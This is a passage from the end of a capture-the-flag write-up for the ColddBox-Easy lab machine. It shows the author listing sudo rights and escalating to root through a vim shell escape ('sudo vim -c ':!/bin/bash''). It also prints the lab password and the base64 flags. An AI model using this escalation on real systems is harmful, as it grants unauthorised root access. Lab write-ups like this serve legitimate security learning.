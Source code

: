 **And now i'm was an admin type of person!**   

Next i checked what i can run as `sudo` :   
```bash
c0ldd@ColddBox-Easy:/var/www/html$ sudo -l
sudo -l
[sudo] password for c0ldd: cybersecurity

Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
c0ldd@ColddBox-Easy:/var/www/html$
```

And the good old place for rootz, as i don't remember anything:   
https://gtfobins.github.io/   

`vim` sounded good, even i don't know how to use it, but that's not important!   

```bash
sudo /usr/bin/vim -c ':!/bin/bash'
```

Profit!!   
```bash
:!/bin/bash
root@ColddBox-Easy:/var/www/html# id
id
uid=0(root) gid=0(root) grupos=0(root)
root@ColddBox-Easy:/var/www/html# ls
ls
hidden           wp-blog-header.php    wp-includes        wp-signup.php
index.php        wp-comments-post.php  wp-links-opml.php  wp-trackback.php
license.txt      wp-config.php         wp-load.php        xmlrpc.php
readme.html      wp-config-sample.php  wp-login.php
wp-activate.php  wp-content            wp-mail.php
wp-admin         wp-cron.php           wp-settings.php
root@ColddBox-Easy:/var/www/html# whoami
whoami
root
root@ColddBox-Easy:/var/www/html# 
```

Then to get the flags, as i forgot the user flag already.    
```bash
root@ColddBox-Easy:/var/www/html#  cd /root
cd /root
root@ColddBox-Easy:/root# ls
ls
root.txt
root@ColddBox-Easy:/root# cat root.txt
cat root.txt
wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
root@ColddBox-Easy:/root# cat /home/c0ldd/user.txt
cat /home/c0ldd/user.txt
RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==
```

*Total time:  
Active hacking: ~3 h  
Reading and studying: ~4 h*
